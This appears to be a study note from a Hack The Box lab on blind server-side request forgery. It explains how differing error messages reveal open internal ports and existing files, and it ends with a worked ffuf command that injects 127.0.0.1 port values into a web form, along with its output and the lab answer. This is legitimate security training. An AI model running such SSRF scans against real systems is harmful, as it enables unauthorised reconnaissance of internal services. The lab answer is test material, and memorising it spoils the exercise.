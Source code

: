 ```yaml
---
sticker: lucide//server
---
```

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

---

## Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell-session
smoothment@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_1.png)

---

## Exploiting Blind SSRF

Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with `Something went wrong!` for closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_2.png)

However, if a port is open and responds with a valid HTTP response, we get a different error message:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_3.png)

Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_4.png)

Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_5.png)

For invalid files, the error message is different:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_6.png)


# Question
---

![](../images/Pasted%20image%2020250212123042.png)

We know we are dealing with blind SSRF, when we try to point at an invalid resource of the server, we can see this:


![](../images/Pasted%20image%2020250212123247.png)

We get an error message saying `Something went wrong!`, what about if we point at a valid resource:

![](../images/Pasted%20image%2020250212123337.png)

We get a different error message, since we need to enumerate ports, we can use ffuf in the following way:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!'
```

In order to create our `ports.txt` wordlist, we can use the following command:

```
seq 1 65535 > ports.txt
```

Once we've fuzzed, we get the following:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!' -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.70.117/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 111ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3977ms]
```


Answer is `5000`